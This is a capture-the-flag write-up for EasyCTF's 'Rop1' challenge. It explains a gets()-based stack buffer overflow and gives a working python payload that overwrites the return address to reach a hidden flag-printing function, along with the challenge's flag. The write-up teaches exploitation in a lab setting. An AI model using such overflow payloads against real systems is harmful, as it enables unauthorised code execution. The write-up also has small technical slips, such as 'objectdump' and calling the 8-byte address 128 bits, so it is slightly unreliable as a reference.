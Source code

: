 # Rop1

By PGODULTIMATE

```asciidoc
Go to /problems/rop1 on the shell server and tell me whats in flag.txt.
```

Well the first step to solving this problem is simply accessing the shell and **cd** to `/problems/rop1`. If you `ls -a` the directory then two files would immediately show up. They are Rop1 and [Rop1.c](https://github.com/goelp14/EasyCTF-Writeups-2018-Final/blob/master/rop1.c). I am not linking to the other file because it isn't really necessary and I cannot find it. Anyway, looking at Rop1.c, I see that there is a:

```c
void get_flag()
{
        system("/bin/cat flag.txt");
}
```

That is just completely separate from the other segments of code so I know I can't get to it through normal means. This function prints out the flag as cat is an opening command and flag.txt is - you know - the flag. So I know that this is the part of the code I need to attack. What I do next is objdump the program so that I can find the address for the get\_flag function.

```asciidoc
$ objectdump -d rop1
```

This gives me a whole bunch of stuff, but all I need to look for is the get\_flag\(\) function. It would literally say get\_flag next to the address of the function. So, my address is:

```py
0x0000000000400646
```

What does this mean? Well it really is just telling me the location of the function in the program. With this, I can send a **Buffer Overflow** attack to it and it should print out the flag. This is a **Buffer Overflow** problem for a few reasons. First, if we look at the   `get_input()` function we see:

```c
void get_input()
{
        char inp[64];
        gets(inp);
        printf("You said: %s\n", inp);
}
```

Since it has a `gets()` function, it doesn't check the length of the string entered. This means I can input more characters than the buffer can allow. Hence, I would be _Overflowing the Buffer _\(shoutout to **@Ptomerty **for explaining this to me\). 

Now I just need to figure out what the buffer size is! I first just tried _64 characters_ \(or _64 bytes_\) because thats the usual size for a buffer \(on afterthought I realize that the `char inp[64]` just defined the buffer as 64 characters so I was being stupid\). The common format of the attack would be:

```py
$ python -c "print('A' * <buffer overflow size> + '\xmemory\xaddress\xto\xexploit')" | ./<file>
```

It would directly pump in the letter **A **the number of times I want it to to reach the **buffer overflow size **as an answer to whatever input is wanted at that memory address. The address we found must be converted to **Little Endian** to be used as a memory address in this attack. **Little Endian **is really just the memory address found split in to segments of two bits and then reversed. In this case, The  **Little Endian  **of `0x0000000000400646` is simply `\x46\x06\x40\x00\x00\x00\x00\x00`. Note that in most cases, the four `\x00` at the end are not necessary but I kept it in because I like being extra sure \(shoutout to **@z3 **for pointing out that it was 128 bits when it didn't need to be\). In this first scenario it would look like this:

```py
$ python -c "print('A' * 64 + '\x46\x06\x40\x00\x00\x00\x00\x00')" | ./rop1
```

This didn't print out my flag but I did get a `Segmentation fault (core dumped)` meaning that I am on the right track. So, I just added _eight bytes_ to it \(_64 bits or 8 characters_\).

```py
$ python -c "print('A' * 72 + '\x46\x06\x40\x00\x00\x00\x00\x00')" | ./rop1
```

This prints out my flag:

```asciidoc
easyctf{r0ps_and_h0ps}
```



